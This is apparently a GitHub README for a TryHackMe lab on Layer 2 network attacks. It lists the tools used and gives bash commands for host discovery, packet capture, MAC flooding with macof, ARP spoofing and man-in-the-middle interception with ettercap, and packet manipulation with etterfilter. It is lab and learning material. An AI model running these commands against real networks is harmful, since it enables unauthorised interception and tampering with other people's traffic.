 # Layer2-Network-Attacks   

## Overview  
This repository explores Layer 2 network attacks, including **MAC flooding**, **ARP spoofing**, and **Man-in-the-Middle (MITM) attacks**. It covers methodologies, tools used, and mitigation techniques based on practical exercises from the **TryHackMe Layer2** room.  
 
## Attacks Covered  
- **Network Discovery** – Identifying active hosts and their details.   
- **Passive Network Sniffing** – Capturing and analyzing network traffic.  
- **MAC Flooding** – Overloading a switch to force traffic broadcast.   
- **ARP Spoofing** – Redirecting traffic by poisoning ARP tables.  
- **MITM Sniffing** – Intercepting and analyzing communications.  
- **MITM Manipulation** – Modifying network packets in transit.  

## Tools Used   
- `Nmap` – Network scanning and host discovery  
- `Tcpdump` – Packet capture and traffic analysis  
- `Macof` – MAC flooding attack tool  
- `Ettercap` – ARP spoofing and MITM attack tool  
- `Etterfilter` – Packet filtering and manipulation tool  

## Execution Steps  

```bash
# 1. Network Discovery  
sudo ip address show dev eth1  # Check interface details  
nmap -sn <target IP range>  # Discover active hosts  

# 2. Passive Network Sniffing  
tcpdump -A -i eth1 -w /tmp/tcpdump.pcap  
wireshark /tmp/tcpdump.pcap  # Open and analyze packet capture  

# 3. MAC Flooding Attack  
macof -i eth1  # Flood switch with fake MAC addresses  

# 4. ARP Spoofing with Ettercap  
ettercap -T -i eth1 -M arp  # Execute ARP spoofing attack  

# 5. MITM Sniffing  
nmap -n <IP range>  # Discover hosts  
ettercap -T -i eth1 -M arp  # Intercept and capture network traffic  

# 6. MITM Manipulation with Etterfilter  
etterfilter <filter_file> -o <compiled_filter_file>  
ettercap -T -q -F <compiled_filter_file> -i eth1  
